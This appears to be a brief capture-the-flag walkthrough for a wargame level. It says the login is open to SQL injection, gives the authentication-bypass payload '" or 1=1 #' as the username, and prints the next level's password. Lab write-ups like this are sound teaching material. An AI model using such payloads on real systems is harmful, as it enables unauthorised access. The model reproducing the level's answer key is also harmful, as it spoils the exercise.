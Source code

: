 # Level 14 to Level 15

The code is vulnerable to SQL injection

Enter: `" or 1=1 #` as username

`AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`